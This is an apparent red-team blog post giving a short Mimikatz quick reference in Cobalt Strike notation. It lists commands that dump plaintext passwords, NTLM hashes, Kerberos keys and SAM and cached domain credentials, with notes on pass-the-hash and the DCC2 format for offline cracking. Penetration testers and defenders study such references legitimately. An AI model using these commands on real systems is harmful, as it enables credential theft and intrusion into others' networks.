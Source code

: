 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Mimikatz
---
```


<span style="font-size: 35px; color:red"><b>Mimikatz Quick Reference</b></span>
&nbsp;
The reference will be described using CobaltStrike notation (<span style="color:red">@</span> and <span style="color:red">!</span>).
&nbsp;
- <span style="color:red">!sekurlsa::logonpasswords</span>: dump plaintext passwords from memory and NTLM hashes to then perform <span style="color:red">Pass-The-Hash</span> attacks.
  On CobaltStrike, go to View > Credentials to then see the dumped creds.
- <span style="color:red">!sekurlsa::ekeys</span>: to dump Kerberos encryotion keys of the logged on users.
  Look for AES256. If not there, [run again](https://github.com/gentilkiwi/mimikatz/issues/314). Add manually via View > Credentials > Add to populate the credentials data on CobaltStrike.
- <span style="color:red">!lsadump::sam</span>: to dump local passwords.
- <span style="color:red">!lsadump::cache</span>: extracts passwords from HKLM\SECURITY (domain passwords cached to logon to a machine disconnected from the domain).
  These can be dumped and cracked offline after transforming them in expected format (<span style="color:red">$DCC2$\<iterations\>#\<username\>#\<hash\></span>)
